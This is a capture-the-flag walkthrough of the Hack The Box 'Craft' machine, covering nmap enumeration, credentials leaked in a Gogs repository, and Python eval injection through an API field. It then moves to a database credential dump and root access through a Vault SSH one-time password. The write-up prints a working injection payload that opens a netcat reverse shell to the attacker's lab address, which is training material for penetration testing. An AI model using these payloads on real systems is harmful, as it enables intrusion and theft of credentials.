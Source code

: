 # 						  Craft - Hack The Box WalkThrough

### Victim IP: 10.10.10.110 Victim OS: Linux
### Enumeration - Namp
```
nmap -sV -sC -oA nmap_full -p1,65535 10.10.10.110
Nmap scan report for 10.10.10.110
Host is up (0.13s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)
|   256 82:b5:f9:d1:95:3b:6d:80:0f:35:91:86:2d:b3:d7:66 (ECDSA)
|_  256 28:3b:26:18:ec:df:b3:36:85:9c:27:54:8d:8c:e1:33 (ED25519)
443/tcp  open  ssl/http nginx 1.15.8
|_http-server-header: nginx/1.15.8
|_http-title: About
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Not valid before: 2019-02-06T02:25:47
|_Not valid after:  2020-06-20T02:25:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
6022/tcp open  ssh      (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
| ssh-hostkey: 
|_  2048 5b:cc:bf:f1:a1:8f:72:b0:c0:fb:df:a3:01:dc:a6:fb (RSA)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port6022-TCP:V=7.80%I=7%D=12/19%Time=5DFC45CB%P=x86_64-pc-linux-gnu%r(N
SF:ULL,C,"SSH-2\.0-Go\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 19 22:54:28 2019 -- 1 IP address (1 host up) scanned in 47.95 seconds   
```
### Enumerating the web page - https://craft.htb
![homepage](/images/1_test.py.png)

The "API" link points to api.craft.htb and the "Sign in" button to "gogs.craft.htb" therefore we add these as entries to our hosts file in other to be able to resolve and reach them.

### Enumeration - https://api.craft.htb
Small API with basic GET, POST, PUT, DELETE actions, might be an interesting point of entry.
Authentication required for POST, PUT
![api_craft](/images/api_craft.png)

### Enumeration - https://gogs.craft.htb
![gogs](/images/gogs_craft.png)
Clicking on __Explore__ leads to the public content of the repository.

Repository housing the code and content for api.craft.htb:
![commits](/images/craft_api_repo.png)
Reviewing all issues,commits and merge requests, dinesh's credentials were accidentally commited and removed: 
![dinesh_creds](/images/dinesh_creds.png)
The issue fix by dinesh also shows a dangerous python function (eval):
![eval_in_issue_fix](/images/eval_in_issue_fix.png)
The eval command resides in the POST brew function in brew.py and accepts user input.

The discovered credentials can be used in test.py
![1_test.py](/images/1_test.py.png)


### Initial foothold - Exploiting python eval function
Test 1: On local system:
![Test 1](/images/test1.png )

That works.
Test 2: with a similar "if" statement like in test.py:
![Test 2](/images/test2.png)

That works too, however there is no result returned when it is tried on the victim end.

Test 3: Ping from victim to local machine:
tcpdump -i tun0 -nnv icmp

Payload (test.py): 
```brew_dict['abv'] = '__import__("os").system("ping -c 3 10.10.14.4")' ```
 
Test 4. Reverse shell (http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):
Several failed till the netcat (without -e) option.

The payload in __test.py__ becomes: 
```brew_dict['abv'] = '__import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 4445 >/tmp/f")'```

![Test 4](/images/test3.png)

It's says root! Well that was easy! 
But wait no user.txt or root.txt flags. Of course it couldn't be that easy 

Running "cat /etc/issue", LinEnum and linuxprivchecker again show that we are in a docker container
Release: Alpine Linux 3.9

### Obtaining User privileges  – user.txt
Dump database credentials – dbtest.py
![dbtest.py](/images/dbtest.py.png)

Modify the SQL in the try statement to select all users from the database
![db_dump](/images/dump_users.png)

Authenticate with discovered credentials and enumerate the git repository
All commits/merge requests ==> ssh private key, vault write commands …
<screenshot>
  
For now authenticate with the SSH private key and enter gilfoyle's password (dumped from the db/git password) as passphrase

### Elevating to root – Leveraging Vault SSH Secrets Engine
After obtaining user access on the machine more enumeration is required to discover interesting escalation vectors. Running linuxenum and privesc scripts did not recover any vulnerabilities right away but did point out the vault write.

### Exploring vault:
![vault_secrets](/images/vault_secrets_list.png)

Gilfoyle's OTP setup:

![otp_setup](/images/vault_write_ssh_otp.png)

Reviewing the SSH Secrets Engine Documentation: https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html 
gilfoyle@craft:~$ vault write ssh/creds/root_otp ip=127.0.0.1
![vault_write_ssh_otp](/images/vault_write_ssh_otp_new.png)

Then SSH to the host using the generated key and the root user:
![root.txt](/images/root.txt.png)

Conclusion:
This machine simulates a lot of real world scenarios. I was delighted at every discovery, learned a lot and reminded myself once again the importance of enumeration during a penetration test.
